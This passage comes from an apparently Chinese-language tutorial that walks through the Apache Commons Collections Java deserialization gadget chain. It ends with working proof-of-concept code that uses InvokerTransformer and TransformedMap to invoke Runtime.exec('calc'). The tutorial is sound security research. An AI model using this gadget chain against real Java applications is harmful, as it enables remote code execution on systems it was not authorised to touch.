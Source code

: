 ```java
        method.invoke(transformedMap,runtime);


    }
```


### 3.4 MapEntry.setValue()

紧接上文，现在寻找谁调用了 TransformedMap.checkSetValue()。

一番查找发现 **AbstractInputCheckedMapDecorator$MapEntry.setValue()** 方法调用了 `checkSetValue()` 方法（更具体地说是该方法的 `parent.checkSetValue(value);` 语句调用了 `checkSetValue()`）

![](https://i.imgur.com/szsmJYM.png)

![](https://i.imgur.com/XSAe74Y.png)

这个方法是公有的，说明我们可以直接调用它，并且可以看到该方法接收的 value 参数传入了 `parent.checkSetValue()` 方法，根据我们上文的分析，这个 value 显然应是一个 Runtime 类实例对象。我们肯定是希望 `parent` 变量是一个 `TransformedMap` 类对象，这样一来只需要调用到 setValue() 方法就可以续上我们之前的链子了。

从上图 MapEntry 类的构造函数我们可以控制 `parent` 变量的值。

可以看到 `parent` 变量是一个`AbstractInputCheckedMapDecorator` 类对象，好在 `AbstractInputCheckedMapDecorator` 类是 `TransformedMap` 类的父类，所以我们只需要将 `parent` 变量赋值为 `TransformedMap` 类对象即可。（子类赋值给父类是没问题的）

>`AbstractInputCheckedMapDecorator` 是一个抽象类，并且是 `TransformedMap` 的父类。![](https://i.imgur.com/iCrZa4l.png)
> 这里和之前是一样的，都涉及到 Java 的父子类转化、兼容问题，可以自行百度搜一下相关知识点



### 3.5 AbstractInputCheckedMapDecorator.entrySet()

在这里我们不再去寻找谁调用了 setValue方法，而是直接实例化 `MapEntry` 类直接调用它。
>我不知道这一步为什么突然变了，极有可能是因为 MapEntry 是一个内部类的原因。

那么如何实例化 `MapEntry` 类对象？

答：只需要调用 AbstractInputCheckedMapDecorator 类的 entrySet() 方法就得到一个 EntrySet 类的实例对象，然后进行遍历就可以实现。（具体为什么可以打断点分析）

**小练习**
根据当前的链子书写利用代码。

思路：
因为遍历的时候可以获得一个 MapEntry 类对象，我们调用其 `setValue()` 方法并传入一个 Runtime 实例对象就可以完成链子的构造。


**我的代码：**
```java
public static void main(String[] args) throws Exception {
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec"
                , new Class[]{String.class}, new Object[]{"calc"});
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("key", "value");
        Map<Object, Object> decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);
        // decorateMap 是一个 TransformedMap 类对象 （class org.apache.commons.collections.map.TransformedMap）
        for (Map.Entry entry:decorateMap.entrySet()){
            entry.setValue(runtime);

        }

    }
```
